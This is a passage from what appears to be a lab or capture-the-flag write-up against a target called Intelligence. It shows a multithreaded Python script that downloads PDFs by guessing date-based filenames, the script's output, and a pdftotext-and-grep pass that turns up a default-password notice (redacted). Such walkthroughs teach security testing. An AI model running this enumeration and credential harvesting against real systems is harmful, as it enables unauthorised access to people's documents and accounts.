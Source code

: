```python
def bye():
    print(f"\n[+] Downloaded {len(os.listdir())} files into 'intelligence_downloads'")

def main():
    try:
        hide_cursor()
        args = set_arguments()
        filenames = [f'2020-{month:02d}-{day:02d}-upload.pdf' for month in range(1,13) for day in range(1,32)]

        print("\n[+] Downloading PDF files...")
        set_dest_directory()
        with ThreadPoolExecutor(max_workers=50) as executor:
            for file in filenames:
                executor.submit(download, args.target, file)
        bye()

    except KeyboardInterrupt:
        print("\n[!] Keyboard interrumpt detected. Quitting!")
        sys.exit(1)

    except Exception as e:
        print(f"\n{e}")

    finally:
        show_cursor()

main()
```

Executed it, downloading a total of 84 files. Our guesses were right.

```bash
python3 intelligence.py -t 10.129.95.154

[+] Downloading PDF files...

[+] Downloaded 84 files into 'intelligence_downloads'
```

Used pdftotext to transform all PDF files into txt readable files.

```bash
cd intelligence_downloads
for file in $(ls); do pdftotext $file $file.txt; done
```

Filtering for credentials shows a clear-text password. Noice!

```bash
cat *.txt | grep -i pass -A 2 -B 2
New Account Guide
Welcome to Intelligence Corp!
Please login using your username and the default password of:
<REDACTED>
After logging in please change your password as soon as possible.
```
